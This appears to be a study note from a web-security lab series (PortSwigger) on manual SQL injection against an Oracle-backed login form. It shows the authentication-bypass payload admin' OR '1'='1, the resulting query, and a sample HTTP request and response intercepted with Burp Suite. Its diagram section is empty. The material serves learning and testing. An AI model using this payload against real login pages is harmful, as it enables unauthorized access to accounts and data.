

## Manual SQL Injection Attack

Let's walk through a manual SQL Injection attack on an Oracle database.

### Step-by-Step Manual Attack

1. **Identify Vulnerable Input Fields**: Look for input fields that interact with the database.
2. **Inject Malicious SQL Code**: Insert SQL code into the input field.
3. **Observe the Response**: Analyze the server's response to determine if the injection was successful.

#### Example Scenario

Consider a login form with the following SQL query:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password';
```

An attacker might input `admin' OR '1'='1` as the username, resulting in:

```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = 'password';
```

This query will return all rows where the condition `'1'='1'` is true, effectively bypassing authentication.

### Tools for Manual SQL Injection

Tools like Burp Suite can be used to intercept and modify HTTP requests to test for SQL Injection vulnerabilities.

#### Using Burp Suite

1. **Intercept Requests**: Configure Burp Suite to intercept HTTP requests.
2. **Modify Request**: Inject SQL code into the request.
3. **Send Request**: Send the modified request to the server.

### Full HTTP Request and Response

Here’s an example of a full HTTP request and response during a manual SQL Injection attack:

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

username=admin' OR '1'='1&password=password
```

Response:

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
    <title>Login</title>
</head>
<body>
    <h1>Welcome, admin!</h1>
</body>
</html>
```

### Mermaid Diagram for Attack Flow



---
<!-- nav -->
[[08-Identifying Vulnerable Input Fields|Identifying Vulnerable Input Fields]] | [[Web Security (PortSwigger)/02-SQL Injection/11-Lab 10 SQL injection attack listing the database contents on Oracle/00-Overview|Overview]] | [[10-SQLmap Tool|SQLmap Tool]]
